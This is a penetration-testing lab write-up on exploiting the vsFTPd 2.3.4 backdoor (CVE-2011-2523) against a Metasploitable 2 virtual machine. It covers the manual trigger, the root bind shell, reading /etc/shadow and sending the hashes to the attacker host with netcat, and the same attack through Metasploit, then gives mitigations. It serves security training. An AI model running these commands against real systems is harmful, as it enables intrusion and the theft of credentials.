# 🔐 vsFTPd 2.3.4 Backdoor Exploitation — Penetration Testing Write-Up

<div align="center">

**Vulnerability:** vsFTPd 2.3.4 Backdoor Command Execution  
**CVE:** CVE-2011-2523  
**CVSS Score:** 10.0 (Critical)  
**Target:** Metasploitable 2 (Linux)  
**Author:** Goraya  
**Date:** May 2026

</div>

---

## 📋 Table of Contents

1. [Objective](#-objective)
2. [Executive Summary](#-executive-summary)
3. [Environment Setup](#-environment-setup)
4. [Methodology](#-methodology)
5. [Phase 1 — Network Discovery](#-phase-1--network-discovery)
6. [Phase 2 — Service Enumeration](#-phase-2--service-enumeration)
7. [Phase 3 — Exploitation (Manual)](#-phase-3--exploitation-manual)
8. [Phase 4 — Post-Exploitation & Enumeration](#-phase-4--post-exploitation--enumeration)
9. [Phase 5 — Exploitation (Metasploit)](#-phase-5--exploitation-metasploit)
10. [Key Learnings](#-key-learnings)
11. [Mitigation Recommendations](#-mitigation-recommendations)
12. [Conclusion](#-conclusion)
13. [References](#-references)

---

## 🎯 Objective

The objective of this engagement was to identify, exploit, and document the **vsFTPd 2.3.4 backdoor vulnerability** on a Metasploitable 2 virtual machine within a controlled lab environment. This writeup demonstrates the complete attack lifecycle — from initial network reconnaissance to full root-level access — using both **manual exploitation** techniques and **Metasploit Framework** automation.

---

## 📝 Executive Summary

| Field               | Detail                                                   |
|:---------------------|:----------------------------------------------------------|
| **Target IP**        | `192.168.1.45`                                            |
| **Attacker IP**      | `192.168.1.21`                                            |
| **Target OS**        | Ubuntu 8.04 (Linux 2.6.24-16-server)                      |
| **Vulnerable Service** | vsFTPd 2.3.4 on TCP/21                                  |
| **Vulnerability**    | CVE-2011-2523 — Backdoor Command Execution                |
| **Severity**         | 🔴 **Critical (CVSS 10.0)**                               |
| **Impact**           | Full remote root shell — complete system compromise        |
| **Exploitation Method** | Manual (Netcat) + Automated (Metasploit)               |

A malicious backdoor was introduced into the vsFTPd 2.3.4 source code, allowing an attacker to trigger a bind shell on **port 6200** by sending a specially crafted username containing `:)` (a smiley face) during FTP authentication. Upon successful exploitation, **full root-level access** was obtained without any prior credentials.

---

## 🖥️ Environment Setup

### Lab Architecture

```
┌─────────────────────┐         ┌──────────────────────────┐
│   ATTACKER MACHINE  │         │     TARGET MACHINE       │
│                     │         │                          │
│   Kali Linux        │◄───────►│   Metasploitable 2       │
│   192.168.1.21      │  LAN    │   192.168.1.45           │
│                     │         │   (VirtualBox)           │
└─────────────────────┘         └──────────────────────────┘
```

| Component          | Details                                   |
|:-------------------|:------------------------------------------|
| **Attacker OS**    | Kali Linux (Latest)                       |
| **Target OS**      | Metasploitable 2 — Ubuntu 8.04            |
| **Hypervisor**     | Oracle VirtualBox                         |
| **Network Mode**   | Bridged Adapter (same subnet)             |
| **Tools Used**     | Nmap, Netcat (nc), Python, Metasploit     |

> **📌 Note:** This assessment was conducted in an **isolated lab environment** with explicit authorization. All techniques demonstrated should only be performed on systems you own or have written permission to test.

---

## 🔄 Methodology

The engagement followed a structured penetration testing methodology aligned with industry standards:

```
  ┌──────────────┐     ┌──────────────┐     ┌──────────────┐
  │  RECON &     │────►│ ENUMERATION  │────►│ EXPLOITATION │
  │  DISCOVERY   │     │              │     │              │
  └──────────────┘     └──────────────┘     └──────┬───────┘
                                                   │
  ┌──────────────┐     ┌──────────────┐            │
  │  REPORTING   │◄────│    POST-     │◄───────────┘
  │              │     │ EXPLOITATION │
  └──────────────┘     └──────────────┘
```

---

## 🔍 Phase 1 — Network Discovery

### Step 1.1 — Identify Attacker Machine IP

The first step was to determine the IP address of the attacking machine to establish our position within the network.

```bash
ip a
```

> Displays all network interfaces and their assigned IP addresses. This confirms our attacker machine's IP on the local network.

**Result:** The attacker machine was assigned `192.168.1.21` on the `wlan0` interface.



---

### Step 1.2 — Discover Live Hosts on the Subnet

With our IP confirmed, we performed a network sweep to discover all live hosts on the `/24` subnet.

```bash
nmap 192.168.1.21/24
```

> Performs a ping sweep and port scan across all 254 hosts in the subnet to identify live machines and their open ports.

**Result:** A host running in VirtualBox was discovered at `192.168.1.45` with numerous open ports — a strong indicator of the intentionally vulnerable Metasploitable 2 machine.



---

## 🔎 Phase 2 — Service Enumeration

### Step 2.1 — Full Port Scan of Target

The initial scan revealed a significant attack surface with **23 open TCP ports**:

```bash
nmap 192.168.1.45
```



**Open Ports Identified:**

| Port     | Service          | Port     | Service          |
|:---------|:-----------------|:---------|:-----------------|
| 21/tcp   | FTP              | 1099/tcp | rmiregistry      |
| 22/tcp   | SSH              | 1524/tcp | ingreslock       |
| 23/tcp   | Telnet           | 2049/tcp | NFS              |
| 25/tcp   | SMTP             | 2121/tcp | ccproxy-ftp      |
| 53/tcp   | DNS              | 3306/tcp | MySQL            |
| 80/tcp   | HTTP             | 5432/tcp | PostgreSQL       |
| 111/tcp  | RPCBind          | 5900/tcp | VNC              |
| 139/tcp  | NetBIOS          | 6000/tcp | X11              |
| 445/tcp  | SMB              | 6667/tcp | IRC              |
| 512/tcp  | exec             | 8009/tcp | AJP13            |
| 513/tcp  | login            | 8180/tcp | Tomcat           |
| 514/tcp  | shell            |          |                  |

> **⚠️ Warning:** The sheer number of open services (23 ports) indicates an extremely insecure configuration. In a real-world scenario, this would represent a severely compromised security posture.

---

### Step 2.2 — Service Version Detection on FTP (Port 21)

To confirm the exact version of the FTP service, a targeted version scan was performed:

```bash
nmap -sV -p21 192.168.1.45
```

> The `-sV` flag enables **service version detection**, probing the target port to determine the exact software and version running. The `-p21` flag limits the scan to port 21 (FTP) only.



**Result:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

> **🔴 Important:** **vsFTPd 2.3.4** is a well-known vulnerable version containing a **malicious backdoor** (CVE-2011-2523) that was injected into the source code between June 30 and July 1, 2011. The backdoor opens a bind shell on port 6200 when triggered.

---

## 💥 Phase 3 — Exploitation (Manual)

### Vulnerability Background

In July 2011, it was discovered that the vsFTPd 2.3.4 download archive on the master site had been compromised. A backdoor was inserted into the source code that listens for a specific trigger: when a username ending in `:)` (a smiley face) is sent during FTP authentication, the backdoor opens a **root shell listener on TCP port 6200**.

### Step 3.1 — Trigger the Backdoor via FTP

A Netcat connection was established to the FTP service, and the backdoor trigger sequence was sent:

```bash
nc 192.168.1.45 21
```

> Connects to the FTP service on port 21 of the target using Netcat, establishing a raw TCP connection.

Once connected, the following authentication sequence was sent to trigger the backdoor:

```
220 (vsFTPd 2.3.4)
USER backdoored:)
331 Please specify the password.
PASS anypassword123
```

> **💡 Tip:** The critical trigger is the `:)` sequence appended to the username. The password can be anything — the backdoor activates based solely on the username pattern. The username `backdoored:)` is used here for clarity, but any string ending in `:)` will work (e.g., `test:)`, `admin:)`).



---

### Step 3.2 — Connect to the Backdoor Shell

Immediately after triggering the backdoor, a second terminal was opened to connect to the bind shell on port 6200:

```bash
nc 192.168.1.45 6200
```

> Connects to the backdoor shell listener that was spawned on port 6200 as a result of the trigger. This provides direct command execution on the target.

**Verification of access:**

```bash
whoami
# root

id
# uid=0(root) gid=0(root)
```



> **🔴 Caution:** **Immediate root access was obtained** — no privilege escalation was required. The backdoor provides a shell running as the `root` user with `uid=0`, granting unrestricted access to the entire system.

---

### Step 3.3 — Upgrade to Interactive TTY Shell

The raw Netcat shell lacks full terminal functionality (no tab completion, no command history, no clear screen). To improve usability, the shell was upgraded using Python:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

> Spawns a fully interactive Bash shell using Python's `pty` (pseudo-terminal) module. This provides a proper TTY with prompt, command history, and signal handling.



---

## 🕵️ Phase 4 — Post-Exploitation & Enumeration

With root-level access established, a comprehensive enumeration of the compromised system was performed to understand the full scope of the breach.

### Step 4.1 — System Information Gathering

```bash
whoami && id && hostname && uname -a
```

> Gathers essential system information in a single command chain: current user, UID/GID, hostname, and kernel version.

**Findings:**

| Field         | Value                                  |
|:--------------|:---------------------------------------|
| **User**      | `root`                                 |
| **UID/GID**   | `uid=0(root) gid=0(root)`             |
| **Hostname**  | `metasploitable`                       |
| **Kernel**    | `Linux 2.6.24-16-server`              |
| **Architecture** | `i686 (32-bit)`                     |

---

### Step 4.2 — User Account Enumeration

```bash
cat /etc/passwd | grep "/bin/bash"
```

> Filters the password file to identify accounts with interactive Bash shell access — potential targets for lateral movement.

**Users with Bash Access:**

| Username     | Description                         |
|:-------------|:------------------------------------|
| `root`       | Superuser account                   |
| `msfadmin`   | Default Metasploitable admin        |
| `postgres`   | PostgreSQL database user            |
| `user`       | Standard user account               |
| `service`    | Service account                     |

---

### Step 4.3 — SUID Binary Enumeration

```bash
find / -perm -4000 2>/dev/null
```

> Searches the entire filesystem for **SUID (Set User ID)** binaries. These executables run with the privileges of the file owner (often root), making them potential vectors for privilege escalation.

---

### Step 4.4 — Process Enumeration

```bash
ps aux | head -30
```

> Lists the first 30 running processes with full details including the user, PID, CPU/memory usage, and command line. Critical for identifying services and potential attack vectors.

**Key Finding:** Multiple system services and daemons were observed running as `root`, confirming the wide attack surface of the target.



---

### Step 4.5 — Network Service Enumeration

```bash
ss -tulnp
```

> Displays all **listening TCP/UDP sockets** with associated process names and PIDs. This reveals all network-accessible services on the target machine.



**Critical Services Identified:**

| Port  | Service           | Security Risk                           |
|:------|:------------------|:----------------------------------------|
| 21    | vsFTPd            | 🔴 Known backdoor (exploited)           |
| 22    | SSH               | 🟡 Potential brute-force target          |
| 23    | Telnet            | 🔴 Cleartext protocol — credential theft |
| 80    | Apache HTTP       | 🟡 Web application vulnerabilities       |
| 445   | SMB (Samba)       | 🔴 EternalBlue / SMB exploits            |
| 1524  | Ingreslock Shell  | 🔴 **Known backdoor — direct shell**     |
| 3306  | MySQL             | 🟡 Database access / SQLi               |
| 5432  | PostgreSQL        | 🟡 Database access                      |
| 5900  | VNC               | 🔴 Remote desktop — weak auth            |
| 6200  | Backdoor Shell    | 🔴 **vsFTPd backdoor (exploited)**       |
| 6667  | UnrealIRCd        | 🔴 Known backdoor vulnerability          |
| 8180  | Apache Tomcat     | 🟡 Default credentials / CVEs           |

> **⚠️ Warning:** Port **1524 (Ingreslock)** is a well-known backdoor port providing direct shell access. Combined with the vsFTPd backdoor on port 6200, this target had **multiple persistent backdoor entry points**.

---

### Step 4.6 — Cron Job Enumeration

```bash
cat /etc/crontab && ls /etc/cron.*
```

> Enumerates system-wide scheduled tasks (cron jobs) that may reveal maintenance scripts, backup routines, or writable cron entries exploitable for persistence.



**Scheduled Tasks Discovered:**

- Apache log rotation and maintenance
- Samba service management
- PostgreSQL database maintenance
- Tomcat service cleanup
- ProFTPD maintenance
- System-wide logrotate operations

---

### Step 4.7 — Password Hash Extraction

With root access, the `/etc/shadow` file containing password hashes was fully accessible:

```bash
cat /etc/shadow
```

> Reads the shadow password file containing hashed user passwords. This file is normally readable only by root. Extracted hashes can be cracked offline using tools like **John the Ripper** or **Hashcat**.



**Hashes Extracted for Key Accounts:**

| Account      | Hash Algorithm | Status              |
|:-------------|:---------------|:--------------------|
| `root`       | MD5 (`$1$`)    | ⚠️ Crackable        |
| `msfadmin`   | MD5 (`$1$`)    | ⚠️ Crackable        |
| `klog`       | MD5 (`$1$`)    | ⚠️ Crackable        |
| `postgres`   | MD5 (`$1$`)    | ⚠️ Crackable        |
| `user`       | MD5 (`$1$`)    | ⚠️ Crackable        |
| `service`    | MD5 (`$1$`)    | ⚠️ Crackable        |

> **💡 Tip:** The `$1$` prefix indicates **MD5-based hashing** (md5crypt). MD5 hashes are considered weak by modern standards and can be cracked rapidly using GPU-accelerated tools like Hashcat.

---

### Step 4.8 — Data Exfiltration (Hash Transfer)

The extracted hashes were saved to a file for potential offline cracking:

```bash
cat /etc/shadow > /tmp/hashes.txt
```

> Redirects the shadow file contents to a temporary file for organized exfiltration.

An attempt was made to transfer the hashes to the attacker machine using Netcat:

```bash
# On attacker machine (listener):
nc -lvnp 5555 > hashes.txt

# On target machine (sender):
cat /tmp/hashes.txt | nc 192.168.1.21 5555
```

> Uses Netcat to transfer the hash file over the network. The attacker machine listens on port 5555 while the target pipes the file contents to that listener.

> **📌 Note:** The initial transfer attempt failed due to a typo in the Netcat listener command (`-lvnpp` instead of `-lvnp`) and the listener not being active. This is a common operational mistake during live engagements — always verify your listener is active before initiating the transfer.

---

### Step 4.9 — Bash History Review

```bash
cat /root/.bash_history
```

> Checks the root user's command history for previously executed commands that might reveal credentials, paths, or operational patterns.

**Result:** No useful command history was found — the history file was empty or cleared.

---

## ⚡ Phase 5 — Exploitation (Metasploit)

To demonstrate the same exploitation using an automated framework, the attack was replicated using the **Metasploit Framework**.

### Step 5.1 — Launch Metasploit Console

```bash
msfconsole
```

> Launches the Metasploit Framework interactive console — the industry-standard penetration testing framework.



---

### Step 5.2 — Search for vsFTPd Exploit Module

```bash
msf6 > search vsftpd
```

> Searches the Metasploit module database for exploit modules related to vsFTPd.

**Search Results:**

```
Matching Modules
================

  #  Name                                  Disclosure Date  Rank       Description
  -  ----                                  ---------------  ----       -----------
  0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     VSFTPD 2.3.2 Denial of Service
  1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  VSFTPD v2.3.4 Backdoor Command Execution
```



---

### Step 5.3 — Load and Configure the Exploit

```bash
msf6 > use 1
```

> Selects the `exploit/unix/ftp/vsftpd_234_backdoor` module (index 1) — rated **"excellent"** reliability.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.45
```

> Sets the target host (RHOSTS) to the Metasploitable 2 machine IP address.



---

### Step 5.4 — Execute the Exploit

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```

**Output:**

```
[*] Started reverse TCP handler on 192.168.1.21:4444
[+] 192.168.1.45:21 - Backdoor has been spawned!
[+] Meterpreter session 1 opened (192.168.1.21:4444 -> 192.168.1.45:52441)
```



**Post-Exploitation Verification via Meterpreter:**

```bash
meterpreter > shell
Process 5017 created.
Channel 1 created.

whoami
# root

w
#  13:52:35 up 7 min,  1 user,  load average: 0.00, 0.09, 0.06
# USER     TTY      FROM     LOGIN@   IDLE   JCPU   PCPU WHAT
# root     pts/0    :0.0     13:46    6:33m  0.00s  0.00s -bash
```

> **🔴 Important:** The Metasploit exploitation was fully automated — the framework handled the backdoor trigger, shell binding, and session management. **Root access was confirmed** through the Meterpreter session, validating the vulnerability.

---

## 📚 Key Learnings

### 🔑 Technical Takeaways

1. **Supply Chain Attacks are Real** — The vsFTPd 2.3.4 backdoor is a textbook example of a **supply chain compromise** where malicious code was injected directly into a trusted software distribution.

2. **Version Detection is Critical** — A simple `nmap -sV` scan was sufficient to identify the exact vulnerable version, demonstrating the importance of accurate service enumeration.

3. **Manual vs. Automated Exploitation** — Both manual (Netcat) and automated (Metasploit) approaches yielded identical results. Understanding manual techniques builds deeper knowledge, while frameworks improve efficiency.

4. **Post-Exploitation is Key** — Gaining initial access is only the beginning. Systematic enumeration revealed additional attack vectors, sensitive data (password hashes), and the full scope of the compromise.

5. **Shell Upgrade Matters** — Upgrading from a raw shell to an interactive TTY is essential for reliable post-exploitation activities and should be performed immediately upon gaining access.

### 🛠️ Skills Demonstrated

- Network reconnaissance and host discovery
- Service enumeration and version fingerprinting
- Manual exploit development and execution
- Post-exploitation methodology (Linux)
- Metasploit Framework proficiency
- Credential harvesting and data exfiltration techniques

---

## 🛡️ Mitigation Recommendations

| #  | Recommendation                          | Priority    | Details                                                           |
|:---|:----------------------------------------|:------------|:------------------------------------------------------------------|
| 1  | **Upgrade vsFTPd immediately**          | 🔴 Critical | Update to the latest stable version (3.0.5+) from official sources |
| 2  | **Verify software integrity**           | 🔴 Critical | Always verify checksums/signatures of downloaded packages          |
| 3  | **Disable unnecessary services**        | 🔴 High     | Close ports 23, 512-514, 1524, 2121, 5900, 6667, 8180            |
| 4  | **Implement network segmentation**      | 🟡 High     | Isolate critical services behind firewall rules                   |
| 5  | **Deploy intrusion detection (IDS)**    | 🟡 Medium   | Monitor for backdoor trigger patterns on FTP ports                |
| 6  | **Enforce strong password policies**    | 🟡 Medium   | Replace MD5 hashes with SHA-512 or bcrypt                         |
| 7  | **Enable logging and monitoring**       | 🟡 Medium   | Centralize logs with SIEM for anomaly detection                   |
| 8  | **Conduct regular vulnerability scans** | 🟢 Low      | Schedule automated scans to identify known CVEs                   |
| 9  | **Apply principle of least privilege**  | 🟡 Medium   | Services should not run as root where possible                    |
| 10 | **Patch management program**            | 🔴 Critical | Establish a formal process for timely security updates             |

---

## ✅ Conclusion

This penetration test successfully demonstrated the exploitation of **CVE-2011-2523** — the vsFTPd 2.3.4 backdoor vulnerability — on a Metasploitable 2 target machine. The engagement proved that:

- **Full root-level access** was achievable through a single crafted FTP login attempt
- The attack required **zero authentication** and **no prior credentials**
- The vulnerability is **trivially exploitable** both manually and through automated frameworks
- Post-exploitation revealed **extensive sensitive data** including password hashes for all system accounts
- The target machine contained **multiple additional attack vectors** across 23 open services

